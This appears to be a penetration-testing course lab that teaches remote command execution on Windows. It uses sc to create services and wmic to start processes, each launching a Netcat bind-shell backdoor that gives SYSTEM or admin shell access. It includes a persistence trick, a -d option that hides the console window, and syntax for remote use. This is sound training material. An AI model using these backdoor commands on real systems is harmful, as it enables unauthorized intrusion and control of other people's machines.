

Lab 3.6: Running Commands with SC and WMIC
Objectives
- To use the
sccommand to create a service out of a Netcat backdoor listener - To control a backdoor listening service using the
sccommand - To set up a port monitoring capability using the Windows
netstatcommand - To use
wmicto create a Netcat backdoor listener - To analyze how
wmiccan monitor for processes using its /every:1 syntax
Lab – Step-by-Step Instructions
Let's do a lab with some of the methods we've covered for making a command run on a target Windows machine. In particular, we'll use the sc and wmic techniques. For this lab, we are going to make Windows run a command that invokes a Netcat listener, giving remote, interactive backdoor command shell access with the victim machine. The command that we'll make our own Windows machines run with local SYSTEM privileges is:
nc.exe -l -p 2222 -e cmd.exe
This command tells Netcat (nc.exe) to run as a listener (-l) on local port (-p) 2222, and when someone connects, it executes (-e) a cmd.exe shell. The attacker then can connect to the machine on TCP port 2222 and get remote interactive command shell access. For this lab, we'll use these techniques locally for practice. But keep in mind that each technique could be used remotely.
Let's step back and consider what we are trying to learn here. The idea is that, if testers have an admin user ID and password, as well as SMB network access to a target, they can use sc or wmic on the attacker's machine to make the target machine run any command of the attacker's choosing. We are going to use sc and wmic to make the target execute a command shell that we can then access across the network to run various individual commands directly and interactively.
Step 1: Setup
In the C:\Tools directory, there is a file called ncexer.bat that will create two terminal windows for you in different colors for this lab. If you have color vision deficiency, use the titles of the windows as a guide.
PLEASE RUN THE ncexer.bat FILE WITH ADMIN PRIVILEGES. On Windows, you can do this by right-clicking it and selecting Run as administrator.
This file brings up two cmd.exe windows with different colors and titles. The yellow screen will be our Attacker. The grey screen will be our Victim. Now practice invoking a Netcat backdoor listening on TCP port 2222 and giving command shell access. In our Victim (grey) screen, run:
Victim (grey):
C:\> C:\Tools\nc.exe -nvlp 2222 -e cmd.exe
Now, in the Attacker (yellow) window, use a Netcat client to connect to that backdoor:
Attacker (yellow):
C:\> C:\Tools\nc.exe -nv 127.0.0.1 2222
You should get command shell access. Type in some commands, such as hostname and dir.
This connection shows the concept of what we are trying to achieve: backdoor shell access of the target Windows machine. But you need to exit this shell to move forward in this lab. Please drop both sides of the connection by pressing CTRL-C in either the yellow or the grey screen. That will close the backdoor so we can move forward and re-create it with the sc command and the wmic command.
Step 2: Create a service
After we've stopped our Netcat listener on TCP port 2222 using CTRL+C, let's use the sc command to make Netcat into a service. In your Attacker window, determine your machine's hostname by running:
Attacker (yellow):
C:\> hostname Sec560Student
Now use the sc command to create a Netcat service, which we'll name ncservice:
Attacker (yellow):
C:\> sc \\Sec560Student create ncservice binpath= "c:\tools\nc.exe -l -p 2222 -e cmd.exe"
NOTE THAT THERE MUST BE A SPACE BETWEEN THE EQUALS SIGN AND THE QUOTATION MARK. ALSO, THERE SHOULD BE NO SPACE BETWEEN THE BINPATH AND THE EQUALS SIGN.
Furthermore, don't use an IP address here in place of the hostname (Sec560Student) because some Windows machines have problems with localhost, 127.0.0.1, or local IP addresses as names for this command. Instead, just use your host's name.
We are using the hostname here to simulate running commands on a remote computer. We could do this with one of the lab machines, but there would be a lot of port and service name conflicts. This makes your life easier and it accomplishes the exact same thing.
Remotely, this command works well with just the IP address of the victim machine. If the service was created successfully, your machine should state Create Service SUCCESS.
You can then query the service state using this command:
Attacker (yellow):
C:\> sc \\Sec560Student query ncservice
You should see that the service STATE is STOPPED.
Next, we'll start it and try to connect to it.

Now that we've created our ncservice, let's set up a little monitor for the service in our Victim window. You can do this by monitoring for TCP port 2222 to start listening. Run the netstat command, as follows:
Victim (grey):
C:\> netstat -nao 1 | find ":2222"
This command tells netstat to list, in numerical form (-n), all the TCP and UDP ports (-a) in use and the process ID number using each port (-o), running every one second (… and there must be a space between the -nao and the 1). We then scrape the output of netstat to look for the string 2222, which would indicate that the port is in use. The port should not be in use when we run netstat now because we killed our experimental Netcat listener from earlier. If the port is in use right now, kill the associated process with Task Manager or the taskkill command, as follows:
C:\> taskkill /PID [process_ID]
Now that our monitor is set up in the Victim screen, let's use our attacker screen to start up our service:
Attacker (yellow):
C:\> sc \\Sec560Student start ncservice
The service should start, even though the sc command doesn't return immediately.
In your Victim (grey) window, your netstat command should begin displaying output, indicating that TCP port 2222 is LISTENING. Unfortunately, after approximately 30 seconds, the sc command finishes, displaying an error message saying, "The service did not respond to the start or control request in a timely fashion". But we did have a listener for 30 seconds.
You may see that it appears that your port is still open and listening even after Windows kills the service. That’s a phantom port listener. The Process ID indicated by netstat’s output is likely no longer running on Windows, so no one can connect to that port, even though netstat’s output still shows LISTENING. After a few seconds, Windows realizes this and frees up the port.
Stop your netstat command by pressing CTRL-C in the Victim (grey) window.
Then delete the original ncservice so that we can replace it with one that is more persistent, listening beyond the 30-second timeout:
Attacker (yellow):
C:\> sc \\Sec560Student delete ncservice
Step 3: A better service
Restart your netstat command in the Victim window to monitor for our listener:
Victim (grey):
C:\> netstat -nao 1 | find ":2222"
Create a better Netcat service, called ncservice2, which makes a Netcat listener that survives for more than 30 seconds by invoking a cmd.exe as a service that, in turn, runs Netcat using the /k option:
Attacker (yellow):
C:\> sc \\Sec560Student create ncservice2 binpath= "cmd.exe /k c:\tools\nc.exe -l -p 2222 -e cmd.exe"
Finally, start that service:
Attacker (yellow):
C:\> sc \\Sec560Student start ncservice2
Again, your sc command will hang and then fail with the same error message as before. But now the listener should keep listening, with port 2222 staying open. Your Victim (grey) window should keep on displaying lines saying that the port is listening.
Now, in the Attacker (yellow) window, connect to the listener using a Netcat client:
Attacker (yellow):
C:\> c:\tools\nc.exe 127.0.0.1 2222
You should get a command shell back. This command shell is generated by the Netcat process running in the background with local SYSTEM privileges, created by the ncservice2 service that we created. Remember to note that the title bar of the Attacker (yellow) window shows a Netcat client invocation (c:\tools\nc.exe 127.0.0.1 2222), so the command prompt you see in this window is coming from whatever this Netcat client is connected to, namely our Netcat listener running in the background.
Type commands, such as hostname, whoami, and dir, into this Netcat client. We've gotten remote interactive command shell access as local SYSTEM using the sc command. Also, note that the status of TCP port 2222 in our Victim (grey) screen is ESTABLISHED.
Note that if you press CTRL-C in your Netcat client, it drops the connection, also causing the Netcat listener to stop as well. That's because we invoked the Netcat listener with the -l option, which creates a listener that listens for one connection and then stops running when that connection goes away. If we had invoked it with a -L, the Windows version of Netcat would listen harder, creating a persistent listener that allows multiple connections serially, one after the other. With -L, Netcat keeps listening between connections. In penetration testing, sometimes we want a listener to run for one connection (-l), and sometimes we want a persistent listener (-L). The Windows version of Netcat gives us an option to choose either.
To finish with this part of the lab, make sure you kill your Netcat client by pressing CTRL-C in the Attacker (yellow) window. Also, stop your netstat command by pressing CTRL-C in the Victim (grey) window.
And remember to delete your ncservice2 with this command:
Attacker (yellow):
C:\> sc \\Sec560Student delete ncservice2
Verify that port 2222 is no longer in use by running:
Victim (grey):
C:\> netstat -nao | find ":2222"
Note that we did not use a 1 here to run netstat every second. We want it to run just once to verify that the port isn't in use anymore.
Step 4: WMIC
Next, we will launch a Netcat listener with wmic instead of sc. As you'll see, this is easier to do with wmic and has a smaller footprint on the target machine. (That is, we don't have to define a service that we later delete.) However, the process that we invoke won't have local SYSTEM privileges. Instead, the process will run with administrator privileges.
Start by running a monitor in our Victim (grey) window. We could use a monitor that looks for a given port with netstat, as before. But instead, to be different and expand our skills, let's use a wmic command to monitor for the start of a process called nc.exe. We can do this with the following command:
Victim (grey):
C:\> wmic process where name="nc.exe" list brief /every:1
This command invokes wmic to look at processes that have a name of nc.exe, listing one line of output (brief) with important information for each process with that name. With the /every:1 syntax, we can use wmic to run any command that reads information from our machine every second. Because there is no process called nc.exe on our machines, the system says, No instance(s) Available. If you do see a Netcat executable, kill it using the taskkill command.
Although the wmic command continues to run every second, move to the Attacker (yellow) window. Let's use wmic to invoke a Netcat listener on the target machine, as follows:
Attacker (yellow):
C:\> wmic process call create "c:\tools\nc.exe -l -p 4444 -e cmd.exe"
By default, wmic takes action on the local machine. To make this work remotely, we'd have to add the syntax /node:Sec560Student /user:[AdminUser] /password: [password] after wmic and before process in this command. Just run it locally for now.
Then look at the output of your victim window. Do you see the Netcat process running in the output of the wmic /every:1 command?
In your attacker window, connect to the Netcat listener using:
Attacker (yellow):
C:\> c:\tools\nc.exe 127.0.0.1 4444
Type in some commands, such as hostname, whoami, ipconfig, and dir. You’ll see that your privileges are of the admin user who ran wmic. When you finish, press CTRL-C in both your Attacker (yellow) and Victim (grey) windows to stop the Netcat client (which will also kill the -l Netcat listener) and the wmic monitoring loop.
Did you notice a console window that popped up when you invoked Netcat using wmic? It likely had a blank screen with a title of c:\tools\nc.exe.
This console is a side effect of the way we invoked Netcat. If Netcat is invoked in a way that can interact with the user's desktop console session, it pops up a console window, unless we invoke Netcat with the -d option. The -d option tells Netcat to run detached from the current user's session. As a penetration tester, we often want to avoid console windows appearing on the screens of our target machines as we are testing them, so it's often safest to invoke Netcat with -d on Windows. The Linux and UNIX versions of Netcat do not have this side effect. In fact, there is no -d option in Netcat for Linux/UNIX.
Try to invoke Netcat using wmic as before, but this time with the -d option:
Attacker (yellow):
C:\> wmic process call create "c:\tools\nc.exe -dlp 4444 -e cmd.exe"
Now you should not see the console window. (Actually, it might flash on the screen quickly and then disappear, depending on your system's performance.)
To finish with the lab, kill all remaining Netcat processes with this command:
C:\> wmic process where name="nc.exe" delete
Conclusion
In conclusion, in this lab, you’ve seen how to cause target Windows machines to run commands of your choosing. The two techniques covered, using sc to create and run a service (thereby emulating psexec but using only built-in tools) and running wmic to cause a target to start a process, are particularly useful for penetration testers because of their application of built-in Windows features. At the end of this lab, make sure you kill your Netcat listeners, as well as remove the ncservice and ncservice2 you created during the lab.